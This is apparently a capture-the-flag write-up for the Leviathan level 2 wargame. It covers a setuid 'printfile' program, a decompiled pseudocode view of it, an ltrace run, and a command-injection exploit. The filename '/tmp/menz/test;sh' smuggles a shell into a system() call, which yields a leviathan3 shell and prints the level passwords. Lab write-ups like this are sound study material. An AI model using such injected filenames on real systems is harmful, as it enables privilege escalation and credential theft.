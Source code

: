 No Info Given 

```shell
leviathan2@leviathan:~$ ls -la
total 32
drwxr-xr-x  3 leviathan2 leviathan2 4096 Oct 29 12:16 .
drwxr-xr-x 11 root       root       4096 Oct 29 12:16 ..
-rw-r--r--  1 leviathan2 leviathan2  220 Apr  9  2014 .bash_logout
-rw-r--r--  1 leviathan2 leviathan2 3637 Apr  9  2014 .bashrc
drwx------  2 leviathan2 leviathan2 4096 Oct 29 12:16 .cache
-rw-r--r--  1 leviathan2 leviathan2  675 Apr  9  2014 .profile
-r-sr-x---  1 leviathan3 leviathan2 7506 Oct 23 04:20 printfile
```
Lets Run printfile

```shell
leviathan2@leviathan:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```
Time to reverse this thing to its original code 

```python
def main(argc, argv):
    v1 = *20 # 0x8048541
    if argc <= 1:
        # 0x8048555
        puts("*** File Printer ***")
        printf("Usage: %s filename\n", *argv)
        # branch -> 0x80485e8
        # 0x80485e8
        if *20 != v1:
            # 0x80485f8
            __stack_chk_fail()
            # branch -> 0x80485fd
        # 0x80485fd
        return -1
    path = argv + 4 # 0x8048585_0
    if access(*path, R_OK) == 0:
        snprintf(&str, 511, "/bin/cat %s", *path)
        system(&str)
        result = 0
        # branch -> 0x80485e8
    else:
        # 0x804859b
        puts("You cant have that file...")
        result = 1
        # branch -> 0x80485e8
    # 0x80485e8
    if *20 != v1:
        # 0x80485f8
        __stack_chk_fail()
        # branch -> 0x80485fd
    # 0x80485fd
    return result
```

The Above code we give it a path and the issue we can't read the file , Permission Denied so we need to find a way around it 

Testing the file with ltrace

```shell
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan2
__libc_start_main(0x804852d, 2, 0xffffd7c4, 0x8048600 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)                  = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2") = 39
system("/bin/cat /etc/leviathan_pass/lev"...ougahZi8Ta
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                       = 0
+++ exited (status 0) +++
```
after quite some time and searching found out 
With a Simple trick we can execute chain command with in filename because it doesn't check the input
so what happen is the following it will check for **/tmp/menz/test** try to print it out but its not found and execute the shell

```shell
leviathan2@leviathan:~$ ltrace ./printfile "/tmp/menz/test;sh"
__libc_start_main(0x804852d, 2, 0xffffd7d4, 0x8048600 <unfinished ...>
access("/tmp/menz/test;sh", 4)            = 0
snprintf("/bin/cat /tmp/menz/test;sh", 511, "/bin/cat %s", "/tmp/menz/test;sh") = 26
system("/bin/cat /tmp/menz/test;sh"/bin/cat: /tmp/menz/test: No such file or directory
$
```
Now lets get our flag
```shell
leviathan2@leviathan:~$ touch "/tmp/menz/test;sh"
leviathan2@leviathan:~$ ./printfile "/tmp/menz/test;sh"
/bin/cat: /tmp/menz/test: No such file or directory
$ whoami
leviathan3
$ cat /etc/leviathan_pass/leviathan3
Ahdiemoo1j
```




